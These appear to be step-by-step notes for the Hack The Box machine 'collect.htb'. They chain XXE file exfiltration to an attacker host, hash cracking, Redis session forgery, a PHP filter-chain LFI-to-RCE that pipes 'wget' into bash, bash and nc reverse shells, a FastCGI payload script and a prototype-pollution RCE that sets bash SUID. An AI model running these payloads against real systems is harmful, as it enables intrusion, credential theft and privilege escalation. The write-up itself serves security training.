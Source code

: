 access web page and scroll down
see collect.htb

echo "10.10.11.192 collect.htb" >> /etc/hosts
nmap -p- --min-rate 3000 collect.htb -> 22, 80 and 6379/tcp redis
nmap -p 22,80,6379 -sCV collect.htb

ffuf -c -w '/root/Downloads/SecLists/Discovery/DNS/subdomains-top1million-20000.txt' -u http://collect.htb -H "Host: FUZZ.collect.htb" -X POST --fs 26197,0 -> get "forum" and "developers"
ffuf -c -w '/root/Downloads/Tools/raft-medium-directories.txt' -u http://collect.htb/FUZZ -X POST --fs 0

----------------------------------------------------------------------------------------------------------
POST /set/role/admin HTTP/1.1
Host: collect.htb
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:104.0) Gecko/20100101 Firefox/104.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=r8qne20hig1k3li6prgk91t33j
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 38

token=ddac62a28254561001277727cb397baf
----------------------------------------------------------------------------------------------------------

XXE INJECTION - FILE READ
nano test.dtd

----------------------------------------------------------------------------------------------------------
<!ENTITY % file SYSTEM 'php://filter/convert.base64-encode/resource='>
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://10.10.16.4/?file=%file;'>">
%eval;
%exfiltrate;
----------------------------------------------------------------------------------------------------------

manage_api=<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://10.10.16.4/test.dtd"> %xxe;]><root><method>POST</method><uri>/auth/register</uri><user><username>test2</username><password>test2</password></user></root>

change to "../resource=/var/www/developers/.htpasswd'>"
echo "ZGV2ZWxvcGVyc19ncm91cDokYXByMSRNektBNXlYWSREd0V6Lmp4VzlVU1dvOC5nb0Q3alkxCg==" | base64 -d
developers_group:$apr1$MzKA5yXY$DwEz.jxW9USWo8.goD7jY1

nano hash.txt

----------------------------------------------------------------------------------------------------------
$apr1$MzKA5yXY$DwEz.jxW9USWo8.goD7jY1
----------------------------------------------------------------------------------------------------------

john hash.txt --wordlist=../rockyou

change to "../resource=/var/www/developers/../bootstrap.php'>"
echo "PD9waHAKaW5pX3NldCgnc2Vzc2lvbi5zYXZlX2hhbmRsZXInLCdyZWRpcycpOwppbmlfc2V0KCdzZXNzaW9uLnNhdmVfcGF0aCcsJ3RjcDovLzEyNy4wLjAuMTo2Mzc5Lz9hdXRoPUNPTExFQ1RSM0QxU1BBU1MnKTsKCnNlc3Npb25fc3RhcnQoKTsKCnJlcXVpcmUgJy4uL3ZlbmRvci9hdXRvbG9hZC5waHAnOwo=" | base64 -d

----------------------------------------------------------------------------------------------------------
?php
ini_set('session.save_handler','redis');
ini_set('session.save_path','tcp://127.0.0.1:6379/?auth=COLLECTR3D1SPASS');

session_start();

require '../vendor/autoload.php';
----------------------------------------------------------------------------------------------------------

redis-cli -h collect.htb
AUTH COLLECTR3D1SPASS
keys *
get PHPREDIS_SESSION:r8qne20hig1k3li6prgk91t33j
set PHPREDIS_SESSION:r8qne20hig1k3li6prgk91t33j 'username|s:4:"test";role|s:5:"admin";auth|s:4:"test";'
refresh the page and pass form

open burp and inspect "..?page="
LFI2RCE (https://book.hacktricks.xyz/pentesting-web/file-inclusion/lfi2rce-via-php-filters)
PHP FILTER (https://github.com/synacktiv/php_filter_chain_generator)
python3 php_filter_chain_generator.py --chain "<?= 'id'?>"
"..?page=<generated code>"
python3 php_filter_chain_generator.py --chain "<?=`wget -O - 10.10.14.152/b|bash` ?>"
"..?page=<generated code>"
bash -i &>/dev/tcp/10.10.16.4/9001 <&1

cat login.php
mysql -u webapp_user -p Str0ngP4ssw0rdB*12@1
use developers;

PENTESTING FASTCGI (https://book.hacktricks.xyz/network-services-pentesting/9000-pentesting-fastcgi)
nano victor.sh

----------------------------------------------------------------------------------------------------------
#!/bin/bash

PAYLOAD="<?php echo '<!--'; system('whoami'); echo '-->';"
FILENAMES="/tmp/index.php" # Exisiting file path

HOST='127.0.0.1'
B64=$(echo "$PAYLOAD"|base64)

for FN in $FILENAMES; do
    OUTPUT=$(mktemp)
    env -i \
      PHP_VALUE="allow_url_include=1"$'\n'"allow_url_fopen=1"$'\n'"auto_prepend_file='data://text/plain\;base64,$B64'" \
      SCRIPT_FILENAME=$FN SCRIPT_NAME=$FN REQUEST_METHOD=POST \
      cgi-fcgi -bind -connect $HOST:9000 &> $OUTPUT

    cat $OUTPUT
done
----------------------------------------------------------------------------------------------------------

chmod +x victor.sh
./victor.sh

change "whoami('<here>')" to:
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.4 9002 >/tmp/f
cat user.txt

select * from users;
update users set role='admin' where username='test';

----------------------------------------------------------------------------------------------------------
curl http://127.0.0.1:3000/auth/login -H "content-type: application/json" -d '{"username":"test2", "password":"test2"}'
{"Status":"Ok","Header":{"x-access-token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoidGVzdDIiLCJpc19hdXRoIjp0cnVlLCJyb2xlIjoiYWRtaW4iLCJpYXQiOjE2NzcwMTEyNjgsImV4cCI6MTY3NzAxNDg2OH0.XT-rwrznjVptZBKhgv5aKHBejmV6k8U2TabCNeQ72_E"}}
----------------------------------------------------------------------------------------------------------

cat documentation.js

Prototype Pollution (https://book.hacktricks.xyz/pentesting-web/deserialization/nodejs-proto-prototype-pollution/prototype-pollution-to-rce#exec-exploitation)

----------------------------------------------------------------------------------------------------------
curl http://127.0.0.1:3000/admin/messages/send -H "X-Access-Token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoidGVzdDIiLCJpc19hdXRoIjp0cnVlLCJyb2xlIjoiYWRtaW4iLCJpYXQiOjE2NzcwMTEyNjgsImV4cCI6MTY3NzAxNDg2OH0.XT-rwrznjVptZBKhgv5aKHBejmV6k8U2TabCNeQ72_E" -H "content-type: application/json" -d '{"text":{"constructor":{"prototype":{"shell":"/proc/self/exe","argv0":"console.log(require(\"child_process\").execSync(\"chmod +s /usr/bin/bash\").toString())//","NODE_OPTIONS":"--require /proc/self/cmdline"}}}}'
----------------------------------------------------------------------------------------------------------